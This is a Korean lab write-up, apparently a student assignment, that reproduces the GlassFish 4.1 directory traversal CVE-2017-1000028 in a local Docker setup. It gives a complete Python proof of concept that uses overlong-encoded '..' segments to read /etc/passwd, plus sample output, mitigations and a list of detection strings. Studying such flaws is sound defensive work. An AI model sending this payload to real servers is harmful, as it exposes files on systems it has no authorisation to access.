

CVE-2017-1000028

취약점 요약

CVE-2017-1000028은 GlassFish Server Open Source Edition 4.1에서 발생하는 디렉터리 탐색 취약점이다.

공격자가 특수하게 인코딩된 경로를 포함한 HTTP 요청을 보내면 로그인을 하지 않은 상태에서도 서버 내부 파일에 접근할 수 있다.

이번 실습에서는 Docker로 취약한 GlassFish 4.1 환경을 구성하고 PoC를 실행해 컨테이너 내부의 /etc/passwd 파일을 읽는 방식으로 취약점을 확인했다.

- 취약 제품: GlassFish Server Open Source Edition
- 취약 버전: 4.1
- 취약점 종류: Directory Traversal
- 관련 CWE: CWE-22
- 인증 필요 여부: 없음
- 원격 공격 가능 여부: 가능
- Risk Score: 7.5 High
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

파일 구성

현재 폴더는 다음 파일로 구성되어 있다.

    CVE-2017-1000028
     Dockerfile
     docker-compose.yml
     docker-entrypoint.sh
     poc.py
     poc-result.png
     README.md

- Dockerfile은 Java 8과 GlassFish 4.1이 포함된 Docker 이미지를 만든다
- docker-compose.yml은 Dockerfile을 이용해 이미지를 빌드하고 4848번 포트를 연결한다
- docker-entrypoint.sh은 GlassFish 관리자 비밀번호 설정과 초기 실행 과정을 자동화한다
- poc.py는 취약한 경로가 포함된 HTTPS 요청을 전송하고 서버 응답을 출력한다
- poc-result.png는 PoC를 실행한 결과 화면이다
- README.md는 환경 구성과 재현 방법을 설명한다

 테스트 환경

이번 실습은 다음 환경에서 진행했다.

- Windows 11
- Docker Desktop
- Docker Compose
- Python 3
- Visual Studio Code
- Windows PowerShell

Docker가 정상적으로 설치되었는지는 다음 명령으로 확인했다.

    docker run hello-world

Hello from Docker!가 출력되면 Docker 이미지 다운로드, 컨테이너 생성, 프로그램 실행 과정이 정상적으로 작동하는 것으로 확인할 수 있다.

 환경 구성

Docker Desktop을 먼저 실행한 뒤 CVE-2017-1000028 폴더에서

    docker compose up -d --build 명령을 실행했다. 이 명령은 현재 폴더의 Dockerfile을 이용해 이미지를 직접 빌드하고 GlassFish 컨테이너를 백그라운드에서 실행한다.

컨테이너 상태는  docker compose ps 명령으로 확인했다.

정상적으로 실행되면 상태가 Up 또는 running으로 표시되고   0.0.0.0:4848->4848/tcp 포트 연결이 보인다.

서버 로그는 docker compose logs --tail 50 명령으로 확인했다.
GlassFish는 컨테이너가 실행된 직후 바로 준비되지 않을 수 있으므로 시작 완료 로그가 나타날 때까지 잠시 기다린다.

GlassFish 관리자 서버의 주소 https://localhost:4848

실습용 서버가 자체 서명 인증서를 사용하기 때문에 브라우저에서 보안 경고가 나타날 수 있다.

취약 조건

이 취약점은 다음 조건에서 재현된다.

- GlassFish Server Open Source Edition 4.1을 사용하고 있어야 한다
- 공격자가 GlassFish 관리자 서버의 4848번 포트에 접근할 수 있어야 한다
- 별도의 사용자 로그인이나 관리자 인증은 필요하지 않다
- 비정상적으로 인코딩된 URL 경로가 서버까지 전달되어야 한다
- 서버가 요청 경로를 안전하게 정규화하지 못하는 상태여야 한다

이번 Docker 환경에서는 취약한 GlassFish 4.1을 사용하고 4848번 포트를 로컬 컴퓨터에 연결해 조건을 구성했다.

취약점 원리

일반적인 파일 경로에서 ../는 현재 폴더의 상위 폴더로 이동하는 의미를 가진다.

정상적인 서버는 사용자가 입력한 경로에 ../와 같은 값이 포함되어 있으면 이를 검사하거나 허용된 경로 밖으로 이동하지 못하도록 차단해야 한다.

이번 취약점에서는 일반적인 ../ 대신 다음과 같이 비정상적으로 인코딩된  %c0%ae%c0%ae/값이 사용된다.
취약한 GlassFish 4.1은 이 값을 처리하는 과정에서 상위 디렉터리 이동과 비슷하게 잘못 해석한다.
공격자가 이 값을 여러 번 반복하면 원래 접근이 허용된 디렉터리를 벗어나 다른 경로의 파일을 요청할 수 있다.

이번 PoC에서는 다음과 같은 흐름으로 /etc/passwd 파일에 접근했다.

    /theme/META-INF/
    상위 디렉터리 이동 문자열 반복
    /etc/passwd 접근

/etc/passwd는 Linux 시스템의 사용자 계정 정보를 저장하는 파일이다.

컨테이너 내부에서 직접 파일을 연 것이 아니라 외부 HTTPS 요청의 응답으로 해당 파일 내용이 반환됐기 때문에 디렉터리 탐색 취약점이 재현된 것으로 판단했다.

 재현 절차

먼저 Docker Desktop을 실행한다.

그다음 PowerShell 또는 VS Code 터미널에서 현재 CVE 폴더로 이동한다.

    cd GlassFish/CVE-2017-1000028

Docker Compose를 이용해 취약 환경을 빌드하고 실행한다.

    docker compose up -d --build

컨테이너가 실행 중인지 확인한다.

    docker compose ps

GlassFish 서버의 시작 로그를 확인한다.

    docker compose logs --tail 50

서버가 정상적으로 시작된 뒤 PoC를 실행한다.

    python poc.py

Windows에서 python 명령을 사용할 수 없는 경우   py poc.py 명령으로 실행할 수 있다.

출력 결과에서 다음과 같은 Linux 사용자 정보가 나타나는지 확인한다.

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

위 내용이 출력되면 GlassFish 서버를 통해 컨테이너 내부의 /etc/passwd 파일을 읽은 것이다.

실습이 끝난 뒤에는 다음 명령으로 컨테이너를 종료한다.

    docker compose down -v

 PoC 코드

PoC는 별도의 외부 Python 라이브러리 설치 없이 Python 기본 모듈인 socket과 ssl을 사용했다.

poc.py의 전체 코드는 다음과 같다.

    import socket
    import ssl

    HOST = "localhost"
    PORT = 4848

    # %c0%ae%c0%ae는 취약한 GlassFish가 상위 경로(..)로 잘못 해석하는 값이다.
    TRAVERSAL = "%c0%ae%c0%ae/" * 10
    PATH = f"/theme/META-INF/{TRAVERSAL}etc/passwd"

    request = (
        f"GET {PATH} HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        "Connection: close\r\n"
        "\r\n"
    )

    context = ssl._create_unverified_context()

    try:
        with socket.create_connection((HOST, PORT), timeout=10) as sock:
            with context.wrap_socket(sock, server_hostname=HOST) as secure_sock:
                secure_sock.sendall(request.encode("ascii"))

                response = b""

                while True:
                    data = secure_sock.recv(4096)

                    if not data:
                        break

                    response += data

        # HTTP 헤더와 실제 응답 본문을 분리한다.
        parts = response.split(b"\r\n\r\n", 1)
        body = parts[1] if len(parts) == 2 else response

        print(body.decode("utf-8", errors="replace"))

    except ConnectionRefusedError:
        print("[오류] localhost:4848 서버에 연결할 수 없습니다.")
        print("먼저 docker compose up -d --build를 실행하세요.")

    except Exception as error:
        print(f"[오류] PoC 실행 중 문제가 발생했습니다: {error}")

HOST와 PORT에는 Docker로 실행한 GlassFish 서버의 주소와 포트를 지정했다.

TRAVERSAL에는 비정상적으로 인코딩된 상위 디렉터리 이동 문자열을 10번 반복해 저장했다.

PATH에는 GlassFish의 기본 경로, 디렉터리 탐색 문자열, 읽으려는 /etc/passwd 경로를 연결했다.

PoC는 socket.create_connection()으로 4848번 포트에 연결하고 ssl을 이용해 HTTPS 통신을 수행한다.

그다음 조작된 HTTP GET 요청을 직접 전송하고 서버가 보낸 응답을 모두 받은 뒤 HTTP 헤더와 응답 본문을 분리한다.

응답 본문에 /etc/passwd 내용이 나타나면 취약점이 재현된 것으로 판단한다.
 실행 결과

PoC를 실행하면 다음과 같이 Linux 계정 정보가 출력된다.

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

root:x:0:0:으로 시작하는 내용은 컨테이너 내부의 /etc/passwd 파일에 들어 있는 Linux 사용자 정보다.

PoC를 실행한 Windows 터미널로 컨테이너 내부의 파일 내용이 전달된 것을 확인했기 때문에 취약점 재현에 성공한 것으로 판단했다.

 위험도

이 취약점의 CVSS 점수는 7.5점으로 High 등급이다.

네트워크를 통해 원격으로 요청할 수 있고 로그인이나 관리자 권한이 필요하지 않다.

사용자가 별도의 파일을 실행하거나 링크를 누를 필요도 없다.

- Attack Vector: Network
- Attack Complexity: Low
- Privileges Required: None
- User Interaction: None
- Confidentiality: High
- Integrity: None
- Availability: None

이번 PoC는 파일 읽기만 확인했기 때문에 파일 변조나 서버 중단은 발생하지 않았다.

하지만 /etc/passwd 외에 애플리케이션 설정 파일, 로그 파일, 서버 경로, 계정 정보가 포함된 파일이 노출될 가능성이 있다.

공격자가 이런 정보를 얻으면 이후 다른 공격에 사용할 수 있기 때문에 위험도가 높다고 판단했다.

대응 방안

가장 확실한 대응 방법은 취약한 GlassFish 4.1 사용을 중단하고 보안 패치가 적용된 지원 버전으로 업데이트하는 것이다.

GlassFish 관리자 포트인 4848번은 외부 인터넷에 직접 공개하지 않아야 한다.

관리자 포트에 접근할 수 있는 IP를 방화벽 또는 접근 제어 목록으로 제한해야 한다.

서버는 요청 경로를 처리하기 전에 인코딩 값을 정상화하고 최종 경로가 허용된 디렉터리 안에 있는지 확인해야 한다.

../, %c0%ae, META-INF처럼 비정상적인 경로가 포함된 요청을 탐지하거나 차단하는 방법도 사용할 수 있다.

서버 접근 로그에서 반복적인 디렉터리 이동 문자열이 포함된 요청이 있었는지 확인해야 한다.

GlassFish 서버 프로세스에 최소 권한 원칙을 적용하면 취약점이 발생하더라도 접근할 수 있는 파일 범위를 줄일 수 있다.

 실습 과정에서 막혔던 부분

 Docker와 VMware의 차이

처음에는 취약 환경을 만들기 위해 VMware를 설치하고 Ubuntu 운영체제를 별도로 구성해야 하는 줄 알았다.

하지만 이번 과제에서는 Docker Desktop이 취약한 서버 환경을 컨테이너 형태로 실행해 주기 때문에 VMware가 필요하지 않았다.

Docker는 운영체제를 통째로 설치하는 가상머신과 달리 필요한 프로그램과 설정을 이미지로 구성해 비교적 빠르게 실행할 수 있다는 것을 알게 됐다.

PowerShell에 Docker 명령을 입력하면 Docker Desktop의 Docker 엔진이 명령을 처리한다는 구조도 처음에는 알지 못했다.

 Fork와 Clone의 차이

GitHub 저장소를 가져올 때 Fork와 Clone이 둘 다 복사 기능처럼 보여서 차이를 이해하기 어려웠다.

Fork는 원본 저장소를 내 GitHub 계정으로 복사하는 작업이고 Clone은 GitHub 저장소의 파일을 내 컴퓨터로 내려받는 작업이었다.

원본 저장소를 바로 Clone하는 것이 아니라 내 계정으로 Fork한 저장소를 Clone해야 나중에 내 작업 브랜치를 Push하고 원본 저장소에 Pull Request를 보낼 수 있었다.

origin은 내 GitHub 저장소를 의미하고 upstream은 과제 원본 저장소를 의미한다는 것도 새로 알게 됐다.

 404 오류 화면

기존 Spring CVE 환경을 먼저 실행했을 때 브라우저에서 정상적인 홈페이지가 아니라 404 화이트라벨 오류 화면이 나타났다.

처음에는 Docker 서버가 실행되지 않은 것으로 생각했다.

하지만 404는 서버가 꺼진 것이 아니라 요청한 / 경로에 표시할 페이지가 없다는 뜻이었다.

브라우저가 실제 Spring 서버에서 오류 응답을 받은 것이므로 서버 자체는 실행 중이었다.

이후에는 브라우저 화면만 보지 않고 docker compose ps 명령으로 상태를 확인했다.

컨테이너 상태가 Up 또는 running이면 실행 중인 상태였다.

서버 내부 오류는   docker compose logs 명령으로 확인할 수 있었다.

Dockerfile과 docker-compose.yml의 차이

처음에는 Dockerfile과 docker-compose.yml이 비슷한 역할을 한다고 생각했다.

실습을 진행하면서 Dockerfile은 이미지 안에 어떤 프로그램을 설치할지 정하는 파일이고 docker-compose.yml은 해당 이미지를 어떤 포트와 설정으로 실행할지 정하는 파일이라는 것을 알게 됐다.

이번 Dockerfile은 Java 8 환경에서 GlassFish 4.1을 다운로드하고 압축을 해제하도록 구성했다.

docker-compose.yml의 다음 설정도 처음에는 숫자가 왜 두 번 나오는지 이해하지 못했다.

    4848:4848

왼쪽 4848은 Windows 컴퓨터에서 접속하는 포트이고 오른쪽 4848은 Docker 컨테이너 내부에서 GlassFish가 사용하는 포트였다.

 docker-entrypoint.sh의 역할

GlassFish를 설치한 뒤 바로 실행하면 될 것으로 생각했지만 처음 실행할 때 관리자 비밀번호 설정과 보안 관리자 기능 활성화가 필요했다.
사람이 직접 설정하면 채점자가 환경을 실행할 때 같은 과정을 반복해야 하므로 재현성이 떨어질 수 있다.
docker-entrypoint.sh에서 초기 설정을 자동으로 실행하도록 만들어 docker compose up명령만으로 환경이 구성되도록 했다.
이 과정을 통해 과제에서 말하는 재현성은 단순히 실행에 성공하는 것뿐 아니라 사람이 추가로 설정하지 않아도 되는 환경을 만드는 것이라는 점을 알게 됐다.

 HTTPS 인증서 경고

GlassFish 관리자 페이지에 접속했을 때 브라우저에 연결이 비공개로 설정되어 있지 않다는 경고가 나타났다.
처음에는 포트 연결이나 Docker 설정이 잘못된 것으로 생각했다.
하지만 실습용 GlassFish 서버가 공인 인증서가 아닌 자체 서명 인증서를 사용하기 때문에 브라우저가 인증서를 신뢰하지 못해 나타난 경고였다.
PoC 코드에서도 같은 문제를 처리하기 위해 로컬 실습 환경의 인증서 검증을 생략했다.
실제 외부 웹사이트에서는 인증서 경고를 무시하면 안 되며 이번 설정은 localhost에서 실행하는 개인 Docker 실습 환경에서만 사용했다.

 curl.exe와 path-as-is 옵션

처음에는 인터넷 예제처럼 PowerShell에서 curl만 입력했다.
Windows PowerShell에서는 curl이 다른 명령의 별칭으로 처리될 수 있으므로 실제 curl 프로그램을 실행하려면 curl.exe라고 입력하는 것이 안전했다.

--path-as-is 옵션도 이번 실습에서 처음 알게 됐다.

일반적인 curl은 URL 경로를 정리하거나 일부 값을 변경할 수 있지만 이번 취약점은 비정상적으로 인코딩된 경로를 그대로 보내야 했다.
따라서 URL이 전송 전에 변경되지 않도록 --path-as-is 옵션을 사용했다.
최종 제출에서는 긴 curl 명령 대신 다른 사람이 쉽게 실행할 수 있도록 poc.py파일을 작성했다.

PoC 출력의 39a

처음 작성한 PoC는 소켓으로 HTTP 응답 전체를 직접 읽었다.
이 방식으로 실행했을 때 /etc/passwd 내용 위에 39a라는 값이 함께 출력됐다.
처음에는 오류 메시지인 줄 알았지만 HTTP 청크 전송에서 사용하는 데이터 크기 값이었다.

 
 Git에 이미지가 올라가지 않은 문제

컴퓨터 폴더에 poc-result.png가 있었지만 처음 GitHub 파일 목록에는 이미지가 표시되지 않았다.

로컬 폴더에 파일이 존재한다고 해서 자동으로 GitHub에 업로드되는 것이 아니었다.

새 파일은 먼저 Git의 추적 대상으로 추가해야 했다.

    git add GlassFish/CVE-2017-1000028/poc-result.png

그다음 커밋과 Push를 진행해야 GitHub에 반영됐다.

    git commit -m "Add PoC result screenshot"
    git push origin add-CVE-2017-1000028

이 과정을 통해 파일 저장, Git 추가, 커밋, Push는 각각 별도의 작업이라는 것을 알게 됐다.

Git 작성자 정보 오류

처음 커밋을 실행했을 때 Author identity unknown 오류가 발생했다.

Git에 작성자 이름과 이메일이 등록되지 않아 커밋을 만들 수 없는 상태였다.

다음 명령을 이용해 Git 사용자 정보를 설정한 뒤 다시 커밋할 수 있었다.

    git config --global user.name "GitHub 사용자 이름"
    git config --global user.email "GitHub 이메일"

 Untracked files 오류

작성자 정보를 설정한 뒤 다시 커밋했지만 nothing added to commit이라는 메시지가 나타났다.

파일을 작성하기만 했고 git add 명령으로 커밋 대상에 추가하지 않았기 때문이었다.

저장소 최상위 폴더에서 다음 명령으로 과제 폴더를 추가했다.

    git add GlassFish/CVE-2017-1000028

이후 git status에서 파일들이 Changes to be committed 아래에 표시되는 것을 확인하고 커밋했다.

 새로 배운 내용

이번 실습을 통해 Docker 이미지와 컨테이너의 차이를 알게 됐다.

Docker 이미지는 프로그램과 실행 환경이 포함된 원본이고 컨테이너는 그 이미지를 실제로 실행한 상태다.

전체 과정은 다음과 같다.

    Dockerfile 작성
    Docker 이미지 빌드
    컨테이너 생성
    GlassFish 서버 실행
    PoC 요청 전송
    취약점 결과 확인

docker compose up -d --build 명령에서 --build는 Dockerfile을 이용해 이미지를 새로 만드는 옵션이고 up은 컨테이너를 생성하고 실행하는 명령이다.

-d는 서버를 터미널 앞에서 계속 실행하지 않고 백그라운드에서 실행하는 옵션이다.
docker compose down -v에서 down은 컨테이너와 네트워크를 종료하고 삭제하며 -v는 저장된 볼륨 데이터까지 삭제한다.
기존 데이터나 컨테이너가 남아 있으면 이전 설정 때문에 우연히 실행될 수도 있으므로 최종 검증에서는 환경을 완전히 삭제한 뒤 다시 빌드해야 한다.

 재현성 검증

처음에는 내 컴퓨터에서 PoC가 한 번 성공하면 과제가 완료된 것으로 생각했다.

하지만 채점자는 내가 사용하던 컨테이너나 로컬 설정을 가지고 있지 않기 때문에 GitHub에 실제로 올라간 파일만으로 실행할 수 있어야 한다.

먼저 기존 Docker 환경을 종료했다.

    docker compose down -v

그다음 작업 브랜치를 GitHub에 Push한 뒤 새로운 폴더에 다시 Clone했다.

    git clone --branch add-CVE-2017-1000028 --single-branch 저장소주소 kr-vulhub-final-check

새로 Clone한 폴더에서는 어떤 파일도 수정하거나 추가하지 않고 README에 작성한 명령 그대로 실행했다.

    docker compose up -d --build
    docker compose ps
    docker compose logs --tail 50
    python poc.py

새 환경에서도 /etc/passwd 내용이 출력되는 것을 확인했다.
이 과정을 통해 작업 중인 내 폴더에서 실행되는 것과 GitHub에 커밋된 제출 파일만으로 실행되는 것은 다른 검증이라는 것을 알게 됐다.

 실습 후 느낀 점

과제를 처음 확인했을 때는 CVE, PoC, Docker, Fork, Clone, Commit, Pull Request 같은 용어가 한꺼번에 나와서 무엇부터 해야 할지 알기 어려웠다.

기존 Spring CVE 환경을 먼저 실행해 보면서 Docker 서버 실행, 브라우저 접속, PoC 실행, 성공 결과 확인의 전체 흐름을 이해할 수 있었다.

그다음 직접 GlassFish 환경을 만들면서 각 파일이 서로 연결되어 있다는 것을 알게 됐다.

docker-compose.yml은 Dockerfile을 이용해 이미지를 빌드한다.

Dockerfile은 docker-entrypoint.sh을 컨테이너에 복사한다.

docker-entrypoint.sh은 GlassFish의 초기 설정을 처리하고 서버를 실행한다.

poc.py는 실행 중인 GlassFish 서버에 취약한 요청을 보낸다.

README.md는 다른 사람이 같은 과정을 따라 할 수 있도록 설명한다.

가장 헷갈렸던 부분은 화면에 오류나 경고가 나타났을 때 실제 실패인지 정상적인 과정인지 구분하는 것이었다.
이번에는브라우저 화면만 보지 않고 컨테이너 상태, 서버 로그, 포트 연결, PoC 실행 결과를 각각 확인하면서 성공 여부를 판단했다.
앞으로 다른 취약점을 실습할 때도 단순히 공격 명령을 복사하는 것에서 끝내지 않고 취약 조건, 요청이 처리되는 과정, 성공 증거, 대응 방법을 함께 확인해야 한다는 것을 배웠다.

 환경 종료
실습이 끝난 뒤 다음 명령으로 컨테이너와 관련 데이터를 삭제한다.

    docker compose down -v

Docker Desktop을 종료하기 전에 컨테이너를 먼저 정리했다.

 참고 자료

- NVD  
  https://nvd.nist.gov/vuln/detail/CVE-2017-1000028

- CVE.org  
  https://www.cve.org/CVERecord?id=CVE-2017-1000028

- Vulhub  
  https://github.com/vulhub/vulhub/tree/master/glassfish/CVE-2017-1000028

본 실습은 개인 Docker 환경에서 취약점 동작을 확인하기 위한 목적으로 진행했다. 허가받지 않은 외부 시스템에는 사용하지 않는다.
